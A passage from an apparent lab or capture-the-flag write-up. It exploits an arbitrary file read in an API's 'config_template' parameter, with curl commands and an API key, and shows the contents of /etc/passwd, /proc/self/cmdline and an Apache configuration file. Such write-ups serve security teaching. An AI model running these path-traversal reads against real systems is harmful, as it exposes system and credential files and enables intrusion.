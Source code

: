 ![API Config Access](file-20250929181137646.png)

The response includes a helpful tip: `"You can use config_template parameter to customize output format with configuration files"`

## Arbitrary File Read Vulnerability

The `config_template` parameter appears to be vulnerable to arbitrary file read. Let's test this:

```bash
curl -s 'http://api.investmenthouse.hc/api/config?config_template=test' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.' | tail -n15
```

When we send an invalid file, we get:
```json
"_config": {
  "template": "test",
  "data": "Error to read file",
  "debug": "File ok"
}
```

However, when we request a valid system file like `/etc/passwd`:

```bash
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/etc/passwd' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.' | tail -n15
```

We successfully read the file contents:
```json
"_config": {
  "template": "/etc/passwd",
  "data": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\n...",
  "debug": "File ok"
}
```

> This confirms we have an arbitrary file read vulnerability that allows us to read any file on the system that the web server can access.
{: .prompt-warning}

### Information Gathering

Using the file read vulnerability, we can gather valuable information about the system:

```bash
# Check running processes
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/proc/self/cmdline' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
/usr/bin/node/var/www/api.investmenthouse.hc/app.js
```

```bash
# Apache configuration
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/etc/apache2/sites-available/investmenthouse.hc.conf' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
<VirtualHost *:80>
    ServerName investmenthouse.hc
    DocumentRoot /var/www/investmenthouse.hc/public
    <Directory /var/www/investmenthouse.hc/public>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/investimenthouse_error.log
    CustomLog ${APACHE_LOG_DIR}/investimenthouse.hc_access.log combined
```